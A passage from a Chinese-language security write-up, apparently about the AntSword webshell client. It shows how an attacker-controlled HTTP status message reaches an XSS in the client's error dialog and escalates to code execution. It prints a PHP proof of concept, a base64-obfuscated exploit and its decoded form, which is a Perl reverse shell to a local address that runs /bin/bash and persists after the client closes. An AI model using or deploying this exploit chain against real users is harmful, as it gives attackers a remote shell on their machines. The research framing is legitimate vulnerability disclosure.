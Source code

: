 ！！！！！！！！

虽然我以前从来不看报错，但在这个时候我十分敏感的觉得这个报错信息肯定有我可控的点，大概看了一番，发现这么一句话

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://cdn.nlark.com/yuque/0/2019/png/298354/1553602270132-1cc5a4fe-25bb-4c8c-9604-63e05bd688b3.png#align=left&amp;display=inline&amp;height=62&amp;name=image.png&amp;originHeight=112&amp;originWidth=508&amp;size=28424&amp;status=done&amp;width=282)

这不就是HTTP的状态码和信息吗，要知道http协议状态码是可以随意更改的，并且状态信息也可以自定义，并不会导致无法解析，于是我在我的机子进行实验

```
&lt;?php
header('HTTP/1.1 500 &lt;img src=# onerror=alert(1)&gt;');
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://cdn.nlark.com/yuque/0/2019/png/298354/1553602490361-1adadb12-9131-47a8-85e6-1097ac7b3455.png#align=left&amp;display=inline&amp;height=446&amp;name=image.png&amp;originHeight=802&amp;originWidth=2054&amp;size=335238&amp;status=done&amp;width=1141)

喜提一枚X (R) S (C) S (E) 漏洞，当然这只是poc，并不能执行命令。下面是我的exp

```
&lt;?php

header("HTTP/1.1 406 Not &lt;img src=# onerror='eval(new Buffer(`cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3BlcmwgLWUgXCd1c2UgU29ja2V0OyRpPSIxMjcuMC4wLjEiOyRwPTEwMDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTtcJycsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsKICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOwogIH0pOw==`,`base64`).toString())'&gt;");
?&gt;
```

base64是因为引号太多了很麻烦，只能先编码在解码eval。解码后的代码

```
require('child_process').exec('perl -e 'use Socket;$i="127.0.0.1";$p=1002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))`{`open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/bash -i");`}`;'',(error, stdout, stderr)=&gt;`{`
    alert(`stdout: $`{`stdout`}``);
  `}`);
```

双击shell后

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://cdn.nlark.com/yuque/0/2019/png/298354/1553603776180-b0ce142b-67f2-443b-be87-2a9c02dc4bae.png#align=left&amp;display=inline&amp;height=400&amp;name=image.png&amp;originHeight=720&amp;originWidth=1778&amp;size=167970&amp;status=done&amp;width=988)

并且在蚁剑关闭后这个shell也不会断
